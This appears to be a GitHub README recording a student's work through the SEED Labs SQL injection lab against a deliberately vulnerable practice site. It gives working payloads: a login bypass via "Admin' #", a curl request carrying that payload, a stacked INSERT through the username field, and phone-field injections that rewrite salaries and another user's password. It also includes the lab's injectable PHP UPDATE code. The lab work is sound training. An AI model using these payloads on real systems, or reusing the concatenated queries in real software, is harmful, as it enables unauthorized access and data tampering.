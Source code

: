 # Sql-Injection
# Task 1: Log in MYSQL:

		mysql -u root -pseedubuntu
		mysql> use Users;
		mysql> show tables;
	
//Use such a SQL query:

		select * from credential where Name='Alice';
    
![alt text](https://github.com/shoaibqureshi6/Sql-Injection/blob/main/task%201.png)


# Task 2:

--> Task 2.1

  	.USERNAME: "Admin' #"
  
  	.PASSWORD: "xyz" (here is password is optional)

	//We will result in SQL Query

	 	SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		FROM credential
		WHERE name='Admin' #' && password='xyz'
![alt text](https://github.com/shoaibqureshi6/Sql-Injection/blob/main/task%202.1.png)
    
--> Task 2.2

  	1- Write Code on Terminator in Seed Lab:
	  
    curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	  
    2- Copy the HTML code.
	  
    3- Make a new file in location "file:///home/seed/Documents/temp.html"
	  
    4. Run this location on browser
    
![alt text](https://github.com/shoaibqureshi6/Sql-Injection/blob/main/task%202.2.png)


--> Task 2.3: inject statment to append a row to current database:
	
	  INSERT INTO credential (name,eid) VALUES('Shoaib', '17422');
	  
    After row inserted, go to browser and input as:
	  
    .USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Shoaib','17422') #"
	  .PASSWORD: "" (blank field)
    
![alt text]()



# Task 3
Run this on browder "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php"

--> Task 3.1

	  1- Login as Username= 'Alice' && Password = xyz, 
	  2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	  3- Update Phone Number as ', Salary=1000000 and save.
    
--> Task 3.2

	  1- Login as Username= 'Boby' #' and then open edit profile
	  2- Update Phone Number: ',Salary=0 and remaining unchanges
    
![alt text](https://github.com/shoaibqureshi6/Sql-Injection/blob/main/task%203.2.png)

	Login as Alice
		Assume login as Boby and keep Alice login too. Open Alice profile edit
	Update Phone Number: ', Salary=1 where name='Boby' #
  
--> Task 3.3: We're login as Boby but change password of Alice

	 $conn = getDB();
	 // Don't do this, this is not safe against SQL injection attack
	 $sql="";
	 if($input_pwd!=''){
	 // In case password field is not empty.
	 $hashed_ = sha1($input_pwd);
	 //Update the password stored in the session.
	 $_SESSION['pwd']=$hashed_pwd;
	 $sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	 }else{
	 // if passowrd field is empty.
	 $sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	 }
	 $conn->query($sql);
   $conn->close();
	 header("Location: unsafe_home.php");
	 exit();
![alt text](https://github.com/shoaibqureshi6/Sql-Injection/blob/main/task%203.3.png)
